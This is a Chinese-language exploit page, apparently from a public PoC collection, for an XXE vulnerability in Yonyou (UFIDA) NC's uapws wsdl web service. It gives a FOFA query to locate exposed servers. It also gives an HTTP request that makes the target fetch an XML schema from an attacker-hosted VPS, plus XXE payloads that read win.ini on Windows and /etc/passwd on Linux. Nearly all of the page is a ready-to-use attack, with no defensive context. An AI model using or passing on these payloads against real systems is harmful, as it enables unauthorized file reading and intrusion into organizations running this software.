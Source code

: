 ## 用友 NC uapws wsdl XXE漏洞
用友 NC uapws wsdl 存在XXE漏洞

## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
http://x.x.x.x/uapws/service/nc.uap.oba.update.IUpdateService?wsdl

GET /uapws/service/nc.uap.oba.update.IUpdateService?xsd=http://x.x.x.x/test.xml HTTP/1.1
Host:
Pragma: no-cache
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
```

![image](../../images/d11cc7e3-b0d2-484d-9911-ca742cc384d5.png)

![image](../../images/7a77f089-7a6e-49e4-965b-59ebe9fe23fb.png)

## xxe读取文件
任意文件读取利用，需要VPS上建立对应操作系统的xml文件，然后开启http服务。xml文件如下

```
windows:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///c://windows/win.ini">]><user><username>&name;</username><password>1</password></user>

linux:
evil.xml:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///etc/passwd">]><user><username>&name;</username><password>1</password></user>
```

![image](../../images/dfbf0584-9fa5-45ea-92d0-0e13160d4bf0.png)

![image](../../images/c218c1dd-e73b-42b5-bbce-f96da6efbb08.png)

